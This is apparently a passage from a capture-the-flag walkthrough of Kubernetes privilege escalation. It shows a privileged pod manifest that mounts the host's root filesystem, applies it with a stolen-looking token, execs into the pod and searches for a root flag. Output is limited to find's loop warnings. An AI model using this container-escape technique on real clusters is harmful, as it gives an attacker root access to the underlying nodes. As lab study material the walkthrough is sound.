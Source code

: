 ```bash
cat <<EOF >>privesc.yml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
EOF
./kubectl apply -f privesc.yml --token=${token}
```

```bash
./kubectl exec -it everything-allowed-exec-pod --token=${token} -- /bin/bash
```

```bash
find . -name "root.txt"
```

```console
find: File system loop detected; './host/sys/fs/cgroup/pids/docker/8b3aa3e54588c392fb08435e932ed905ad3080307c7d5dcb53fd024673de5f9e' is part of the same file system loop as './host/sys/fs/cgroup/pids'.
find: File system loop detected; './host/sys/fs/cgroup/perf_event/docker/8b3aa3e54588c392fb08435e932ed905ad3080307c7d5dcb53fd024673de5f9e' is part of the same file system loop as './host/sys/fs/cgroup/perf_event'.
find: File system loop detected; './host/sys/fs/cgroup/memory/docker/8b3aa3e54588c392fb08435e932ed905ad3080307c7d5dcb53fd024673de5f9e' is part of the same file system loop as './host/sys/fs/cgroup/memory'.
find: File system loop detected; './host/sys/fs/cgroup/cpuset/docker/8b3aa3e54588c392fb08435e932ed905ad3080307c7d5dcb53fd024673de5f9e' is part of the same file system loop as './host/sys/fs/cgroup/cpuset'.
find: File system loop detected; './host/sys/fs/cgroup/net_cls,net_prio/docker/8b3aa3e54588c392fb08435e932ed905ad3080307c7d5dcb53fd024673de5f9e' is part of the same file system loop as './host/sys/fs/cgroup/net_cls,net_prio'.
find: File system loop detected; './host/sys/fs/cgroup/freezer/docker/8b3aa3e54588c392fb08435e932ed905ad3080307c7d5dcb53fd024673de5f9e' is part of the same file system loop as './host/sys/fs/cgroup/freezer'.
find: File system loop detected; './host/sys/fs/cgroup/blkio/docker/8b3aa3e54588c392fb08435e932ed905ad3080307c7d5dcb53fd024673de5f9e' is part of the same file system loop as './host/sys/fs/cgroup/blkio'.
find: File system loop detected; './host/sys/fs/cgroup/hugetlb/docker/8b3aa3e54588c392fb08435e932ed905ad3080307c7d5dcb53fd024673de5f9e' is part of the same file system loop as './host/sys/fs/cgroup/hugetlb'.
```